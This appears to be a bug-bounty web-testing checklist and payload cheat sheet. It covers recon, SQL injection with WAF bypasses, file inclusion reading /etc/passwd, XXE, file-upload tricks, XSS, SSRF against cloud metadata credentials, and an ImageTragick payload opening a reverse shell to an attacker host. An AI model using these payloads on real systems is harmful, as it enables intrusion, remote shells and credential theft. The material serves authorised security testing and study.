

Get Root Access
Udemy: https://www.udemy.com/course/the-power-of-burp-suite-as-a-proxy/?referralCode=B7A88A3C703A0761C87E
Black Box Vulnerability Scanner for hunting it will be helpful
https://github.com/wapiti-scanner/wapiti
Recon
We need to get that application target to start using most of the Hacks below, so we need to get the hosts running these applications we target.
- Find a target hackerone.
- Finding Subdomains
- Google,Github, Shodan, Censys, CRT.sh, FindSubdomains
-
Subfinder,Amassassetfinder --subs-only <domain> amass enum -d target.com --passive | awk '{print $1}' | tee amass.txt
- Finding Resolving Applications
-
httpx
-
- Find Ports
-
naabu
-
- Capture Screenshot
Information Gathering
- Conduct
Search EngineDiscovery Reconnaissance for Information Leakage- using
google dorks,shodan,censys
- using
- Fingerprint Web Server
- Determine the version and type of a running web server to enable further discovery of any known vulnerabilities.
- Enumerate Applications on Webserver
- Enumerate the applications within scope that exist on a web server.
- Review Webpage Content for Information Leakage
- Review webpage comments and metadata to find any information leakage.
- Gather JavaScript files and review the JS code to better understand the application and to find any information leakage.
- Identify if source map files or other front-end debug files exist.
- Identify application entry points
- Identify possible entry and injection points through request and response analysis.
- Map execution paths through application
- Map the target application and understand the principal workflows.
- Fingerprint Web Application Framework
Application Entry Points
- Register
- Login
- Upload Functionality
- Search Box
- Comment & Feedback Section
- Contact Us Form
- GET & POST Request
- Cookies and Import Functions
Reference:
SQL Injection
Find injection point
Understand the website behaviour
Send queries for enumeration
Understanding WAF & bypass it
Dump the database- Error based
- Union based
- Blind based
- Use Routed queries for WAF Bypass)
Bypass Error: The used SELECT statements have a different number of columns
The given query will find how many columns the database has:
http://domain.com.br/index.php?id=1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100-- -Bypassing WAF
- Using Null byte before SQL query
- Using SQL inline comment sequence
- URL encoding
- Changing Cases (uppercase/lowercase)
- Use SQLMAP tamper scripts
Stabilise & Whitespace Filter Bypass
Stabilise the error message
http://domain.com/index.php?id=1' order by 1)--
http://domain.com/index.php?id=1' order by 1))--
http://domain.com/index.php?id=1' order by 1;%00
http://domain.com/index.php?id=1' order by 1));%00
http://domain.com/index.php?id=1' order by 1;%60
http://domain.com/index.php?id=1' order by 1%23
http://domain.com/index.php?id=1' order by 1%60
http://domain.com/index.php?id=1' order by 1%90
http://domain.com/index.php?id=1'%23/* order by 1
http://domain.com/index.php?id=1') order by 1
http://domain.com/index.php?id=1' order by 1") ;%00
http://domain.com/index.php?id=1' order by 1#--+
http://domain.com/index.php?id=1' order by 1'))%23Whitespace WAF-based bypass
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+WAF blocks retrieving information from database()
Simply replace database() with one of the following payload:
database/*badd*//**/()
database%23%0A(%23%0A)Time Delays
Oracle dbms_pipe.receive_message(('a'),10)
Microsoft WAITFOR DELAY '0:0:10'
PostgreSQL SELECT pg_sleep(10)
MySQL SELECT sleep(10)Conditional Delays
Oracle SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')NoSQL Injection
- Error based - Detecting syntax injection in MongoDB
- Boolean Blind injection - inject parameters with true/false payloads and attempt to determine if an injection exists
- Timing injection - attempt to inject timing delays in the server, to measure the response
Directory Traversal Attacks
- 16 bits Unicode encoding
- UTF-8 Unicode encoding
- Double URL encoding
- Bypass "../" replaced by ""
- Bypass "../" with ";"
- UNC Bypass
- NGINX/ALB Bypass
- ASPNET Cookieless Bypass
File Inclusion
Local File Inclusion
- Null byte
- Double encoding
- UTF-8 encoding
- Path and dot truncation
Filter bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Remote File Inclusion
- Null byte
- Double encoding
- Bypass allow_url_include
LFI / RFI using wrappers
- Wrapper php://filter
- Wrapper data://
- Wrapper expect://
- Wrapper input://
- Wrapper zip://
- Wrapper phar://
- Wrapper convert.iconv:// and dechunk://
- LFI to RCE via /proc/*/fd
- LFI to RCE via /proc/self/environ
- LFI to RCE via upload
- LFI to RCE via upload (race)
- LFI to RCE via upload (FindFirstFile)
- LFI to RCE via phpinfo() → Use the script: phpInfoLFI.py
LFI to RCE via controlled log file
Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log- RCE via SSH
- RCE via Mail
- RCE via Apache logs
XXE Injection
Error Based XXE
- Error Based - Using Local DTD File
- Error Based - Using Remote DTD
Blind XXE
The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>XXE in exotic files
- XXE inside SVG
- XXE inside SOAP
- XXE inside DOCX file
- XXE inside XLSX file
- XXE inside DTD file
Other Attacks
- XXE to perform SSRF attacks
- XXE to perform a deny of service
- PHP Wrapper inside XXE
File Upload Attacks


Defaults extensions
PHP Server
.php
.php3
.php4
.php5
.php7
# Less known PHP extensions
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
ASP Server
.asp
.aspx
.config
.cer and .asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
- JSP :
.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions
- Perl:
.pl, .pm, .cgi, .lib
- Coldfusion:
.cfm, .cfml, .cfc, .dbm
- Node.js:
.js, .json, .node
Upload tricks
- Use double extensions :
.jpg.php, .png.php5
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code):
.php.jpg
- Random uppercase and lowercase :
.pHp, .pHP5, .PhAr
Null byte
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpgSpecial characters
-Multiple dots : file.php...... , in Windows when a file is created with dots at the end those will be removed.
-Whitespace and new line characters
file.php%20
file.php%0d%0a.jpg
file.php%0a
-Right to Left Override (RTLO): name.%E2%80%AEphp.jpg will became name.gpj.php.
-Slash: file.php/, file.php.\, file.j\sp, file.j/sp
-Multiple special characters: file.jsp/././././.Mime type, change Content-Type : application/x-php or Content-Type : application/octet-stream to Content-Type : image/gif
Content-Type : image/gif
Content-Type : image/png
Content-Type : image/jpeg
Content-Type wordlist: SecLists/content-type.txt
Set the Content-Type twice: once for unallowed type and once for allowed.Magic Bytes
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;Filename vulnerabilities
- Time-Based SQLi Payloads: e.g.
poc.js'(select*from(select(sleep(20)))a)+'.extension
- LFI/Path Traversal Payloads: e.g.
image.png../../../../../../../etc/passwd
- XSS Payloads e.g.
'"><img src=x onerror=alert(document.domain)>.extension
- File Traversal e.g.
../../../tmp/lol.png
- Command Injection e.g.
; sleep 10;
Picture Compression
Configuration Files
PHP server, take a look at the .htaccess trick to execute code.
ASP server, take a look at the web.config trick to execute code.
uWSGI server, take a look at the uwsgi.ini trick to execute code.CVE - ImageMagick
If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-contextZIP archive
When a ZIP/archive file is automatically decompressed after the upload
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txtExtensions Impact
ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXEInsecure deserialization
- Manipulating serialized objects
- Injecting arbitrary objects
- PHAR deserialization
Account Takeover - Chaining Bugs
- IDOR on email change to Account takeover
- Host Header Injection on email change
- Open Redirection to account takeover
- HTML Injection to AWS Metadata Leak Leading to AWS takeover
- Password Reset Poisoning to account takeover
- Mass Assignment leading to account takeover
- Lack of Server-Side validation in Email during Registration leading to account takeover
- Insecure Deeplink allowing account takeover
- GraphQL Introspection to account takeover
- CRLF to XSS leading to account takeover
- IDOR on API Parameters
- Account Takeover via CSRF
Registration Feature Testing
- Check for duplicate registration/Overwrite existing user
- Check for weak password policy
- Check for reuse existing usernames
- Check for insufficient email verification process
- Weak registration implementation-Allows disposable email addresses
- Weak registration implementation-Over HTTP
Session Management Testing
- Identify actual session cookie out of bulk cookies in the application
- Decode cookies using some standard decoding algorithms such as Base64, hex, URL, etc
- Modify cookie.session token value by 1 bit/byte. Then resubmit and do the same for all tokens. Reduce the amount of work you need to perform in order to identify which part of the token is actually being used and which is not
- If self-registration is available and you can choose your username, log in with a series of similar usernames containing small variations between them, such as A, AA, AAA, AAAA, AAAB, AAAC, AABA, and so on. If another user-specific data is submitted at login or stored in user profiles (such as an email address)
- Check for session cookies and cookie expiration date/time
- Identify cookie domain scope
- Check for HttpOnly flag in cookie
- Check for Secure flag in cookie if the application is over SSL
- Check for session fixation i.e. value of session cookie before and after authentication
- Replay the session cookie from a different effective IP address or system to check whether the server maintains the state of the machine or not
- Check for concurrent login through different machine/IP
- Check if any user pertaining information is stored in cookie value or not If yes, tamper it with other user's data
- Failure to Invalidate Session on (Email Change,2FA Activation)
Authentication Testing
- Username enumeration
- Bypass authentication using various SQL Injections on username and password field
Lack of password confirmation on
- Change email address
- Change password
- Manage 2FA
- Is it possible to use resources without authentication? Access violation
- Check if user credentials are transmitted over SSL or not
- Weak login function HTTP and HTTPS both are available
Test user account lockout mechanism on brute force attack
Variation : If server blocks instant user requests, then try with time throttle option from intruder and repeat the process again.
- Bypass rate limiting by tampering user agent to Mobile User agent
- Bypass rate limiting by tampering user agent to Anonymous user agent
- Bypass rate liniting by using null byte
- Create a password wordlist using cewl command
Test Oauth login functionality
OAuth Roles
- Resource Owner → User
- Resource Server → Twitter
- Client Application → Twitterdeck.com
- Authorization Server → Twitter
- client_id → Twitterdeck ID (This is a public, non-secret unique identifier_
- client_secret → Secret Token known to the Twitter and Twitterdeck to generate access_tokens
- response_type → Defines the token type e.g (code, token, etc.)
- scope → The requested level of access Twitterdeck wants
- redirect_uri → The URL user is redirected to after the authorization is complete
- state → Main CSRF protection in OAuth can persist data between the user being directed to the authorization server and back again
- grant_type → Defines the grant_type and the returned token type
- code → The authorization code twitter generated, will be like ?code= , the code is used with client_id and client_secret to fetch an access_token
- access_token → The token twitterdeck uses to make API requests on behalf of the user
- refresh_token → Allows an application to obtain a new access_token without prompting the user
Code Flaws
- Re-Using the code
- Code Predict/Bruteforce and Rate-limit
- Is the code for application X valid for application Y?
Redirect_uri Flaws
- URL isn't validated at all: ?redirect_uri=https://attacker.com
- Subdomains allowed (Subdomain Takeover or Open redirect on those subdomains): ?redirect_uri=https://sub.twitterdeck.com
- Host is validated, path isn't Chain open redirect): ?redirect_uri=https://twitterdeck.com/callback?redirectUrl=https://evil.com
- Host is validated, path isn't (Referer leakages): Include external content on HTML page and leak code via Referer
- Weak Regexes
- Bruteforcing the URL encoded chars after host: redirect_uri=https://twitterdeck.com§FUZZ§
- Bruteforcing the keywords whitelist after host (or on any whitelist open redirect filter): ?redirect_uri=https://§FUZZ§.com
- URI validation in place: use typical open redirect payloads
State Flaws
- Missing State parameter? (CSRF)
- Predictable State parameter?
- Is State parameter being verified?
Misc
- Is client_secret validated?
- Pre ATO using facebook phone-number signup
- No email validation Pre ATO
Test 2FA Misconfiguration
- Response Manipulation
- Status Code
- Manipulation
- 2FA Code Leakage in Response
- 2FA Code Reusability
- Lack of Brute-Force Protection
- Missing 2FA Code Integrity Validation
- With null or 000000
My Account (Post Login) Testing
- Find parameter which uses active account user id. Try to tamper it in order to change the details of the other accounts
- Create a list of features that are pertaining to a user account only. Change Email Change Password -Change account details (Name, Number, Address, etc.) Try CSRF
- Post login change email id and update with any existing email id. Check if its getting validated on server side or not. Does the application send any new email confirmation link to a new user or not? What if a user does not confirm the link in some time frame?
- Open profile picture in a new tab and check the URL. Find email id/user id info. EXIF Geolocation Data Not Stripped From Uploaded Images.
- Check account deletion option if application provides it and confirm that via forgot password feature
- Change email id, account id, user id parameter and try to brute force other user's password
- Check whether application re authenticates for performing sensitive operation for post authentication features
Forgot Password Testing
- Failure to invalidate session on Logout and Password reset
- Check if forget password reset link/code uniqueness
- Check if reset link does get expire or not if its not used by the user for certain amount of time
- Find user account identification parameter and tamper Id or parameter value to change other user's password
- Check for weak password policy
- Weak password reset implementation Token is not invalidated after use
- If reset link has another param such as date and time, then. Change date and time value in order to make active & valid reset link
- Check if security questions are asked? How many guesses allowed? --> Lockout policy maintained or not?
- Add only spaces in new password and confirmed password. Then Hit enter and see the result
- Does it display old password on the same page after completion of forget password formality?
- Ask for two password reset link and use the older one from user's email
- Check if active session gets destroyed upon changing the password or not?
- Weak password reset implementation Password reset token sent over HTTP
- Send continuous forget password requests so that it may send sequential tokens
Contact Us Form Testing
- Is CAPTCHA implemented on contact us form in order to restrict email flooding attacks? Try Captcha Testing & Bypasss
- Does it allow to upload file on the server?
- Blind XSS
Product Purchase Testing
Buy Now
- Tamper product ID to purchase other high valued product with low prize
- Tamper product data in order to increase the number of product with the same prize
Gift/Voucher
- Tamper gift/voucher count in the request (if any) to increase/decrease the number of vouchers/gifts to be used
- Tamper gift/voucher value to increase/decrease the value of the voucher in terms of money. (e.g. $100 is given as a voucher, tamper value to increase, decrease money)
- Reuse gift/voucher by using old gift values in parameter tampering
- Check the uniqueness of gift/voucher parameter and try guessing other gift/voucher code
- Use parameter pollution technique to add the same voucher twice by adding same parameter name and value again with & in the BurpSuite request
Add/Delete Product from Cart
- Tamper user id to delete products from other user's cart
- Tamper cart id to add/delete products from other user's cart
- Identify cart id/user id for cart feature to view the added items from other user's account
Address
- Tamper BurpSuite request to change other user's shipping address to yours
- Try stored XSS by adding XSS vector on shipping address
- Use parameter pollution technique to add two shipping address instead of one trying to manipulate application to send same item on two shipping address
Place Order
- Tamper payment options parameter to change the payment method. E.g. Consider some items cannot be ordered for cash on delivery but tampering request parameters from debit/credit/PayPal/net banking option to cash on delivery may allow you to
place order for that particular item
- Tamper the amount value for payment manipulation in each main and sub requests and responses
- Check if CVV is going in cleartext or not
- Check if the application itself processes your card details and then performs a transaction or it calls any third-party payment processing company to perform a transaction
Track Order
- Track other user's order by guessing order tracking number
- Brute force tracking number prefix or suffix to track mass orders for other users
Wish list page testing
- Check if a user A can add/remote products in Wishlist of other user B’s account
- Check if a user A can add products into user B’s cart from his/her (user A’s) Wishlist section.
Post product purchase testing
- Check if user A can cancel orders for user B’s purchase
- Check if user A can view/check orders already placed by user B
- Check if user A can modify the shipping address of placed order by user B
Out of band testing
Banking Application Testing
Billing Activity
- Check if user 'A' can view the account statement for user 'B'
- Check if user 'A' can view the transaction report for user 'B'
- Check if user 'A' can view the summary report for user 'B'
- Check if user 'A' can register for monthly/weekly account statement via email behalf of user 'B'
- Check if user 'A' can update the existing email id of user 'B' in order to retrieve monthly/weekly account summary
Deposit/Loan/Linked/External Account Checking
- Check if user 'A' can view the deposit account summary of user 'B'
- Check for account balance tampering for Deposit accounts
Tax Deduction Inquiry Testing
- Check if user 'A' with it's customer id 'a' can see the tax deduction details of user 'B' by tampering his/her customer id 'b'
- Check parameter tampering for increasing and decreasing interest rate, interest amount, and tax refund
- Check if user 'A' can download the TDS details of user 'B’
- Check if user 'A' can request for the cheque book behalf of user ‘B’.
Fixed Deposit Account Testing
- Check if is it possible for user 'A' to open FD account behalf of user 'B'
- Check if Can user open FD account with the more amount than the current account balance
Stopping Payment on basis of cheque/date range
- Can user 'A' stop the payment of user 'B' via cheque number
- Can user 'A' stop the payment on basis of date range for user 'B’
Status Enquiry Testing
- Can user 'A' view the status enquiry of user 'B'
- Can user 'A' modify the status enquiry of user 'B'
- Can user 'A' post and enquiry behalf of user 'B' from his own account
Fund transfer testing
- Is it possible to transfer funds to user 'C' instead of user 'B' from the user 'A' which was intended to transfer from user 'A' to user 'B'
- Can fund transfer amount be manipulated?
- Can user 'A' modify the payee list of user 'B' by parameter manipulation using his/her own account
- Is it possible to add payee without any proper validation in user 'A' 's own account or to user 'B' 's account
Schedule transfer testing
- Can user 'A' view the schedule transfer of user 'B'
- Can user 'A' change the details of schedule transfer for user 'B’
Testing of fund transfer via NEFT
- Amount manipulation via NEFT transfer
- Check if user 'A' can view the NEFT transfer details of user 'B’
Testing for Bill Payment
Flight/Railway/Hotel Booking Testing
- Check other user’s e-ticket
- Get refund behalf of other user
- Get more refund by changing refund amount
- Book business/high class ticket by changing parameter value of economy class variable
- Book deluxe room by changing parameter value of normal fare
- Book multiple/seats by changing quantity parameter value for 1 seat/room book
Open Redirection Testing
Common injection parameters
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}- Use burp 'find' option in order to find parameters such as URL, red, redirect, redir, origin, redirect_uri, target etc
- Check the value of these parameter which may contain a URL
- Change the URL value to www.tushar.com and check if gets redirected or not
- Try Single Slash and url encoding
- Using a whitelisted domain or keyword
- Using // to bypass http blacklisted keyword
- Using https: to bypass // blacklisted keyword
- Using \\ to bypass // blacklisted keyword
- Using \/\/ to bypass // blacklisted keyword
- Using null byte %00 to bypass blacklist filter
- Using ° symbol to bypass
Host Header Injection
- Supply an arbitrary Host header
- Check for flawed validation
Send ambiguous requests
- Inject duplicate Host headers
- Supply an absolute URL
- Add line wrapping
- Inject host override headers
Cross-Site Scripting Testing
- Try XSS using QuickXSS tool by theinfosecguy
- Upload file using '"><img src=x onerror=alert(document.domain)>.txt
- If script tags are banned, use <h1> and other HTML tags
- If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
- if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
- Upload a JavaScript using Image file
- Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
Tag attribute value
- Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
- Payload to be inserted -“ onfocus=”alert(document.cookie)"
- Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
XSS filter evasion
- < and > can be replace with html entities < and >
- You can try an XSS polyglot.Eg:-javascript:/-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[/[]/+alert(1)//'>
XSS Firewall Bypass
Server-side request forgery (SSRF)
Common injection parameters
"access=",
"admin=",
"dbg=",
"debug=",
"edit=",
"grant=",
"test=",
"alter=",
"clone=",
"create=",
"delete=",
"disable=",
"enable=",
"exec=",
"execute=",
"load=",
"make=",
"modify=",
"rename=",
"reset=",
"shell=",
"toggle=",
"adm=",
"root=",
"cfg=",
"dest=",
"redirect=",
"uri=",
"path=",
"continue=",
"url=",
"window=",
"next=",
"data=",
"reference=",
"site=",
"html=",
"val=",
"validate=",
"domain=",
"callback=",
"return=",
"page=",
"feed=",
"host=",
"port=",
"to=",
"out=",
"view=",
"dir=",
"show=",
"navigation=",
"open=",
"file=",
"document=",
"folder=",
"pg=",
"php_path=",
"style=",
"doc=",
"img=",
"filename="Finding hidden attack surface
- Partial URLs in requests
- URLs within data formats
- SSRF via the Referer header
- Try basic localhost payloads
Bypassing filters
- Bypass using HTTPS
- Bypass with [::]
- Bypass with a domain redirection
- Bypass using a decimal IP location
- Bypass using IPv6/IPv4 Address Embedding
- Bypass using malformed urls
- Bypass using rare address(short-hand IP addresses by dropping the zeros)
- Bypass using enclosed alphanumerics
Cloud Instances
AWS
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/documentGoogle Cloud
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-idDigital Ocean
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/addressAzure
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text- Bypassing via open redirection
- Blind SSRF
CSRF Testing
Application has Anti-CSRF token implemented
- Removing the Anti-CSRF Token
- Altering the Anti-CSRF Token
- Using the Attacker’s Anti-CSRF Token
- Spoofing the Anti-CSRF Token
- Using guessable Anti-CSRF Tokens
- Stealing Anti-CSRF Tokens
Application uses Double Submit Cookie
- Check for session fixation on subdomains
- Man in the the middle attack
Application validates the Referrer or the Origin of the request received
- Restricting the CSRF POC from sending the Referrer header
- Bypass the whitelisting/blacklisting mechanism used by the application
Sending data in JSON/XML format
- By using normal HTML Form1
- By using normal HTML Form2 (By Fetch Request)
- By using XMLHTTP Request/AJAX request
- By using Flash file
Samesite Cookie attribute
SSO Vulnerabilities
- If internal.company.com Redirects You To SSO e.g. auth.company.com, Do FUZZ
On Internal.company.com
- If company.com/internal Redirects You To SSO e.g. Google login, Try To Insert
public Before internal e.g. company.com/public/internal To Gain Access Internal
- Try To Craft SAML Request With Token And Send It To The Server And Figure
Out How Server Interact With This
- If There Is AssertionConsumerServiceURL In Token Request Try To Insert Your
Domain e.g. http://me.com As Value To Steal The Token
- If There Is AssertionConsumerServiceURL In Token Request Try To Do FUZZ
On Value Of AssertionConsumerServiceURL If It Is Not Similar To Origin
- If There Is Any UUID, Try To Change It To UUID Of Victim Attacker e.g. Email Of
Internal Employee Or Admin Account etc
- Try To Figure Out If The Server Vulnerable To XML Signature Wrapping OR Not?
- Try To Figure Out If The Server Checks The Identity Of The Signer OR Not?
- Try To Inject XXE Payloads At The Top Of The SAML Response
- Try To Inject XSLT Payloads Into The Transforms Element As A Child
Node Of The SAML Response
- If Victim Can Accept Tokens Issued By The Same Identity Provider That Services
Attacker, So You Can Takeover Victim Account
- While Testing SSO Try To search In Burp Suite About URLs In Cookie Header e.g.
Host=IP; If There Is Try To Change IP To Your IP To Get SSRF
Cross-origin resource sharing (CORS)
- Errors parsing Origin headers
- Whitelisted null origin value
JWT Token Testing
- Brute-forcing secret keys
- Signing a new token with the “none” algorithm
- Changing the signing algorithm of the token (for fuzzing purposes)
- Signing the asymmetrically-signed token to its symmetric algorithm match (when you have the original public key)
- (CVE-2015-2951) The alg=none signature-bypass vulnerability
- (CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
- (CVE-2018-0114) Key injection vulnerability
- (CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
- (CVE-2020-28042) Null signature vulnerability
Cloud Services
AWS Cognito
- Unauthorized access to AWS services due to Liberal AWS Credentials
- Authentication bypass due to enabled Signup API action
- Privilege escalation through writable user attributes
- Updating email attribute before verification
WebSocket Testing
- Intercepting and modifying WebSocket messages
- Websockets MITM attempts
- Testing secret header websocket
- Content stealing in websockets
- Token authentication testing in websockets
GraphQL Vulnerabilities Testing
- Inconsistent Authorization Checks
- Missing Validation of Custom Scalars
- Failure to Appropriately Rate-limit
- Introspection Query Enabled/Disabled
WordPress Common Vulnerabilities
- XSPA in wordpress
- Bruteforce in wp-login.php
- Information disclosure wordpress username
- Backup file wp-config exposed
- Log files exposed
- Denial of Service via load-styles.php
- Denial of Service via load-scripts.php
- DDOS using xmlrpc.php
- CVE-2018-6389
- CVE-2021-24364
- WP-Cronjob DOS
XPath Injection
- XPath injection to bypass authentication
- XPath injection to exfiltrate data
- Blind and Time-based XPath injections to exfiltrate data
LDAP Injection
- LDAP injection to bypass authentication
- LDAP injection to exfiltrate data
Denial of Service
- Cookie bomb
- Pixel flood, using image with a huge pixels
- Frame flood, using GIF with a huge frame
- ReDoS (Regex DoS)
- CPDoS (Cache Poisoned Denial of Service)
403 Bypass
- Using "X-Original-URL" header
- Appending %2e after the first slash
- Try add dot (.) slash (/) and semicolon (;) in the URL
- Add "..;/" after the directory name
- Try to uppercase the alphabet in the url
- Tool-bypass-403
- Burp Extension-403 Bypasser
Other Test Cases (All Categories)
Testing for Role authorization
- Check if normal user can access the resources of high privileged users?
- Forced browsing
- Insecure direct object reference
- Parameter tampering to switch user account to high privileged user
Check for security headers and at least
- X Frame Options
- X-XSS header
- HSTS header
- CSP header
- Referrer Policy
- Cache Control
- Public key pins
Blind OS command injection
- using time delays
- by redirecting output
- with out-of-band interaction
- with out-of-band data exfiltration
- Command injection on CSV export (Upload/Download)
- CSV Excel Macro Injection
- If you find phpinfo.php file, check for the configuration leakage and try to exploit any network vulnerability.
- Parameter Pollution Social Media Sharing Buttons
Broken Cryptography
- Cryptography Implementation Flaw
- Encrypted Information Compromised
- Weak Ciphers Used for Encryption
Web Services Testing
- Test for directory traversal
- Web services documentation disclosure Enumeration of services, data types, input types boundaries and limits